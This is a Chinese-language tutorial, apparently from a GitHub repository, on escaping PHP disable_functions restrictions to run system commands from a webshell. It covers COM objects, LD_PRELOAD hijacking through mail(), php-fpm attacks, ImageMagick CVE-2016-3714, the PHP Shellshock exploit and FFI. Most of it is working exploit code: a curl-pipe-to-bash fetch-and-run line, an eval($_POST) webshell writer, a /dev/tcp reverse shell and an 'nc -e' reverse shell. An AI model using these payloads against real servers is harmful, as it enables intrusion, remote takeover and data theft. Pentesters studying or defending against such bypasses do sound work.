






# PHP绕过disable_function限制

# 上 利用环境变量和系统组件

在维护网站时，为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在 `php.ini` 配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。

实验中的 `php.ini` 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

## 1. 常规绕过

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
理解为查看 `PHPinfo` 看看哪些没有被写进`ini`配置文件,绕过限制。

1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```


## 2. 利用系统组件绕过

- 利用条件
    - `windows环境`
    - `com组件`(PHP5.4自带)(高版本扩展要自己添加）

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
`?a=command`


## 3. 利用环境变量 LD_PRELOAD 来绕过

- 使用条件
  - Linux 操作系统
  - `putenv()`
  - `mail` or `error_log`
  - 存在可写的目录, 需要上传 .so 文件

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

1. 我们先做个小实验看看 LD_PRELOAD 能否直接使用

```c
touch test.c
vim test.c

#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
2. 生成动态链接库

`gcc --share -fPIC test.c -o test.so`

3. 使用 LD_PRELOAD 加载刚生成的 `test.so`，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`



执行成功！

**LD_PRELOAD 作为进程独占环境变量，它与待执行命令间必须为空白字符**

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）


如何利用：

1. 编写`bypass_disablefunc.php`和`bypass_disablefunc.so`,并上传到目标服务器

2. 编写一个自己的动态链接程序，`test.c`:

```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("mkdir /var/www/html/test");
 }
int geteuid(){
  FILE *fp1=fopen("/tmp/2.txt","r");
  if(fp1!=NULL)
  {
   fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }
}

//各种payload都一个意思
```

3. 当这个共享库中的`geteuid`被调用时，尝试加载`payload()`函数，执行命令，在`/var/www/html`目录下创建一个名字为`test`的文件。并编译so文件

```bash
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```


4. 我们把`test.so`放到WEB目录，然后编写一个PHP文件进行测试：

```php
<?php
   putenv("LD_PRELOAD=/var/www/html/test.so");
   mail("","","","","");
  ?>
```


借用大佬写的动态连接代码
```c
#include <stdlib.h>
__attribute__((constructor)) void j0k3r(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

5. 上传php页面尝试执行命令:


```php
<?php
$cmd=@$_GET['cmd'];
putenv("cmd=".$cmd);
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>


<?php
putenv("cmd=curl -A o -o- -L http://192.168.91.1:55413/a | bash -s");
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>
```

执行时间要过个几十秒吧。


6. 命令执行成功。

## 4. 攻击 php-fpm/FastCGI 绕过

Web Server 只是负责分发数据，那如果 Nginx 遇到 php 动态请求该怎么处理，这时就需要了解 PHP-FPM 和 FastCGI 了.

- 使用条件
  - Linux 操作系统
  - `putenv()`
  - `mail` or `error_log`


php-fpm是实现FastCGI协议的一个介于webserver(如nginx)和php解释器的一个程序，事实上php-fpm内嵌有php解释器。webserver将用户请求按照fastcgi协议打包发给php-fpm，经php解释器解析后将标准内容再返回给webserver。

PHP5.3 版本之后，PHP-FPM 是内置于 PHP 的，一般来说，尤其是在高并发的情况下，nginx + PHP-FPM 的组合要比 apache + mod_php 好很多.

使用[fpm.py脚本](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

本地测试

```
python fpm.py -c '<?php echo `id`;exit;?>' -p 9999 127.0.0.1 /var/www/html/test.php
```




----

# 中 利用PHP漏洞

## 5. 利用 ImageMagick 命令执行漏洞

利用 [ImageMagick 命令执行漏洞（CVE-2016–3714）](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

> ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

**获取环境**

拉取镜像到本地

`$ docker pull medicean/vulapps:i_imagemagick_1`

启动环境

`$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1`

 > -p 8000:80 前面的 8000 代表物理机的端口，可随意指定。

- 使用与利用
- 本地测试

在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。


**远程命令执行测试和使用POC**

远程命令执行无回显，可通过写文件或者`反弹 shell` 来验证漏洞存在。

目标图片：


- 写一句话到网站根目录下：
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://xxxxx.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
    ```

- 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```

将上述两个 `Exp` 经过 `base64 编码`后发送到远程 `poc.php`，querystring 的 key 为 img。



发送后发现命令执行成功，生成了对应的shell.php


使用蚁剑连接：


**poc.php内容**

```php
<?php
function readImageBlob() {
    $base64 = "iVBORw0KGgoAAAANSUhEUgAAAM0AAAD
 NCAMAAAAsYgRbAAAAGXRFWHRTb2Z0d2FyZQBBZG9iZSBJbWFnZVJlYWR5c
 cllPAAAABJQTFRF3NSmzMewPxIG//ncJEJsldTou1jHgAAAARBJREFUeNrs2EEK
 gCAQBVDLuv+V20dENbMY831wKz4Y/VHb/5RGQ0NDQ0NDQ0NDQ0NDQ0NDQ
 0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0PzMWtyaGhoaGhoaGhoaGhoaGhoxtb0QGho
 aGhoaGhoaGhoaGhoaMbRLEvv50VTQ9OTQ5OpyZ01GpM2g0bfmDQaL7S+ofFC6x
 v3ZpxJiywakzbvd9r3RWPS9I2+MWk0+kbf0Hih9Y17U0nTHibrDDQ0NDQ0NDQ0
 NDQ0NDQ0NTXbRSL/AK72o6GhoaGhoRlL8951vwsNDQ0NDQ1NDc0WyHtDTEhD
 Q0NDQ0NTS5MdGhoaGhoaGhoaGhoaGhoaGhoaGhoaGposzSHAAErMwwQ2HwRQ
 AAAAAElFTkSuQmCC";
    if(isset($_POST['img'])){
        $base64 = $_POST['img'];
    }
    $imageBlob = base64_decode($base64);

    $imagick = new Imagick();
    $imagick->readImageBlob($imageBlob);

    header("Content-Type: image/png");
    echo $imageBlob;
}
```
集成的 ImageMagick 命令执行漏洞（CVE-2016–3714）

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA(){
$command = 'curl 127.0.0.1:7777'; # 命令

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
}
AAAA();
?>
```


## 6. PHP 5.x Shellshock Exploit(CVE-2014-6271)

> PHP < 5.6.2 'Shellshock' Safe Mode

- 使用条件
   - Linux 操作系统
   - `putenv`
   - `mail` or `error_log`
   - `bin/bash` 存在 `CVE-2014-6271` 漏洞
   - `bin/sh -> /bin/bash` sh 默认的 shell 是 bash


简单的说就是可以通过添加附加的命令作为发送邮件时候的配置，比如使用-f参数可以设置邮件发件人等，官方文档在范例`Example #3`也有所演示，具体可以参考官方文档：http://php.net/manual/zh/function.mail.php。

在mail函数的源代码mail.c中，我们可以找到如下代码片段：

```c
       if (extra_cmd != NULL) {
              spprintf(&sendmail_cmd, 0,"%s %s", sendmail_path, extra_cmd);
       } else {
              sendmail_cmd = sendmail_path;
       }
```

如果传递了第五个参数（`extra_cmd`），则用`spprintf`将`sendmail_path`和extra_cmd拼接到`sendmail_cmd`中（其中sendmail_path就是php.ini中的sendmail_path配置项），随后将`sendmail_cmd`丢给`popen`执行：

```c
 #ifdef PHP_WIN32
       sendmail = popen_ex(sendmail_cmd,"wb", NULL, NULL TSRMLS_CC);
#else
       /* Since popen() doesn't indicate if theinternal fork() doesn't work
        *(e.g. the shell can't be executed) we explicitly set it to 0 to be
        *sure we don't catch any older errno value. */
       errno = 0;
       sendmail = popen(sendmail_cmd,"w");
#endif
```

如果系统默认sh是bash，popen会派生bash进程，而我们刚才提到的CVE-2014-6271漏洞，直接就导致我们可以利用mail()函数执行任意命令，绕过disable_functions的限制。

```c
       if (force_extra_parameters) {
              extra_cmd =php_escape_shell_cmd(force_extra_parameters);
       } else if (extra_cmd) {
              extra_cmd =php_escape_shell_cmd(ZSTR_VAL(extra_cmd));
       }
```

`php_escape_shell_cmd`函数会对特殊字符（包括`&#;|*?~<>^()[]{}$\, \x0A and \xFF. ‘` 等）进行转义，那这样是不是就没办法了呢？不是的，我们可以通过`putenv`函数来设置一个包含自定义函数的环境变量，然后通过mail函数来触发，网上早已有POC。

[exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

命令:`?cmd=/usr/bin/id`




---

# 下 调用函数和程序

## 7. PHP7.4 FFI 绕过 disable_functions

`PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可`Bypass disable_functions`。


**使用条件**

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

```
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```


使用`docker` 部署服务：
```bash
apt-get install libffi-dev

docker-php-ext-install ffi
```
重启服务，上传 Payload 网页

```php
<?php
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$ffi->system($a);
?>
```


## 8. Apache Mod CGI 绕过

**CGI**

`CGI`简单说就是:
放在服务器上的可执行程序,CGI编程没有特定的语言,C语言,linux shell,perl,vb等等都可以进行CGI编程.使用linux shell脚本编写的cgi程序便可以执行系统命令.

- 使用条件
    - Linux 操作系统
    - Apache + PHP (apache 使用 apache_mod_php)
    - Apache 开启了 `cgi`, `rewrite`
    - Web 目录给了 `AllowOverride` 权限
    - 当前目录可写

**MOD_CGI**

任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中.

在apache主配置文件中做如下设置

```conf
<Directory 路径>

Options +ExecCGI

</Directory>
```

例如：
```conf

<Directory /var/www/html/>

Options +ExecCGI                      #这便是允许cgi程序执行

</Directory>
```

**绕过disable_functions**

利用mod_cgi来绕过disable_functions思路也很清楚了.利用cgi程序可以执行命令这一点来执行系统命令,disable_functions只能干瞪眼。

在本地准备好`htaccess`文件和要执行命令的`cgi文件`,如下

1.xia:


.htaccess:



将两个文件上传至服务器，使用php的 chmod 函数给 1.xia 添加可执行权限。

`chmod('1.xia',0777)`

访问目标 `xia` 文件:


例如执行命令：查看`/etc/passwd`


## 插件推荐

**蚁剑插件市场-绕过disable_functions**


